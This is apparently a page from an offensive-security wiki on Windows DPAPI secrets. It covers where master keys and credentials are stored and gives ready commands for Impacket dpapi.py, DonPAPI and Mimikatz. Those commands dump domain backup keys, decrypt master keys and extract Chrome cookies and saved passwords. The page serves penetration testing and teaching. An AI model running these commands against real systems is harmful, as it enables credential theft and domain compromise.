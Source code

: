 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1555.003
authors: Hackndo, ShutdownRepo, sckdev
category: ad
---
```


# DPAPI secrets

## Theory

The DPAPI (Data Protection API) is an internal component in the Windows system. It allows various applications to store sensitive data (e.g. passwords). The data are stored in the users directory and are secured by user-specific master keys derived from the users password. They are usually located at:

```batch
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
```

Application like Google Chrome, Outlook, Internet Explorer, Skype use the DPAPI. Windows also uses that API for sensitive information like Wi-Fi passwords, certificates, RDP connection passwords, and many more.

Below are common paths of hidden files that usually contain DPAPI-protected data.

```batch
C:\Users\$USER\AppData\Local\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
```

## Practice

::: tabs

=== UNIX-like

From UNIX-like systems, DPAPI-data can be manipulated (mainly offline) with tools like [dpapick](https://github.com/jordanbtucker/dpapick) (Python), [dpapilab](https://github.com/dfirfpi/dpapilab) (Python), [Impacket](https://github.com/SecureAuthCorp/impacket)'s [dpapi.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/dpapi.py) and [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python).

```bash
# (not tested) Decrypt a master key
dpapi.py masterkey -file "/path/to/masterkey_file" -sid $USER_SID -password $MASTERKEY_PASSWORD

# (not tested) Obtain the backup keys & use it to decrypt a master key
dpapi.py backupkeys -t $DOMAIN/$USER:$PASSWORD@$TARGET
dpapi.py masterkey -file "/path/to/masterkey_file" -pvk "/path/to/backup_key.pvk"

# (not tested) Decrypt DPAPI-protected data using a master key
dpapi.py credential -file "/path/to/protected_file" -key $MASTERKEY
```

[DonPAPI](https://github.com/login-securite/DonPAPI) (Python) can also be used to remotely extract a user's DPAPI secrets more easily. It supports [pass-the-hash](../../ntlm/pth.md), [pass-the-ticket](../../kerberos/ptt.md) and so on.

```bash
DonPAPI.py 'domain'/'username':'password'@<'targetName' or 'address/mask'>
```


=== Windows

On Windows systems [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can be used to extract dpapi with [`lsadump::backupkeys`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/backupkeys), decrypt with [`dpapi::chrome`](https://tools.thehacker.recipes/mimikatz/modules/dpapi/chrome) and [`dpapi::cred`](https://tools.thehacker.recipes/mimikatz/modules/dpapi/cred) or use specific master keys with [`dpapi::masterkey`](https://tools.thehacker.recipes/mimikatz/modules/dpapi/masterkey) and [`sekurlsa::dpapi`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/dpapi) , using specified passwords or given sufficient privileges.

```bash
# Extract and decrypt a master key
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /sid:$SID /password:$PASSWORD /protected

# Extract and decrypt all master keys
sekurlsa::dpapi

# Extract the backup keys & use it to decrypt a master key
lsadump::backupkeys /system:$DOMAIN_CONTROLLER /export
dpapi::masterkey /in:"C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID" /pvk:$BACKUP_KEY_EXPORT_PVK

# Decrypt Chrome data
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies"

# Decrypt DPAPI-protected data using a master key
dpapi::cred /in:"C:\path\to\encrypted\file" /masterkey:$MASTERKEY
```

:::


## Resources

[https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dpapi-extracting-passwords](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dpapi-extracting-passwords)

[https://www.synacktiv.com/ressources/univershell_2017_dpapi.pdf](https://www.synacktiv.com/ressources/univershell_2017_dpapi.pdf)